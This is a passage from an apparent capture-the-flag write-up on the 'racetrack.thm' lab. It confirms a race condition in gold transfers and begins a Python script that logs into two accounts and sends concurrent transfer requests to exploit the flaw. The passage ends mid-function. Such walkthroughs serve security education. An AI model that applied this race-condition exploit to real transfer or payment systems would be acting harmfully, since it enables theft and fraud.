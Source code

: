We will see all the requests being made, what we need to do now is check `test2` account:

![Pasted image 20250612153459.png](../../IMAGES/Pasted%20image%2020250612153459.png)

As seen, we receive more gold that we have on our `test` account, the race condition exists and is exploitable, we can perform the same ffuf increasing the gold amount we are sending to a further quantity or, simply automate the deed with python as we usually do:

```python
#!/usr/bin/env python3

import grequests
import requests
from bs4 import BeautifulSoup
from colorama import init, Fore, Style

# Initialize colorama for cross-platform colored text
init(autoreset=True)

# ======== CONFIGURATION ========
TARGET_HOST = "racetrack.thm"
USERS = {
 "acc1": "acc1",
 "acc2": "acc2"
}
# ===============================

def get_user_session(username, password):
 """Retrieve session cookie and gold balance for authenticated user"""
 payload = {"username": username, "password": password}
 
 with requests.Session() as session:
 try:
 # Authenticate and retrieve account data
 response = session.post(
 f"http://{TARGET_HOST}/api/login", 
 data=payload,
 timeout=5
 )
 response.raise_for_status()
 
 # Parse gold balance from HTML
 soup = BeautifulSoup(response.text, "html.parser")
 gold_element = soup.find("a", string=lambda text: "Gold:" in text if text else False)
 
 if gold_element:
 gold_balance = int(gold_element.text.split(":")[1].strip())
 print(f"{Fore.CYAN}[ðŸ’°] {Fore.GREEN}{username}{Style.RESET_ALL} balance: {Fore.YELLOW}{gold_balance} gold")
 return session.cookies.get("connect.sid"), gold_balance
 
 raise ValueError("Gold balance element not found")
 
 except Exception as e:
 print(f"{Fore.RED}[!] Error retrieving {username} session: {e}")
 return None, 0

def transfer_gold(recipient, session_cookie, amount):
 """Execute rapid gold transfer using asynchronous requests"""
 print(f"\n{Fore.MAGENTA}[âž¤] Initiating transfer of {Fore.YELLOW}{amount} gold{Style.RESET_ALL} to {Fore.CYAN}{recipient}")
```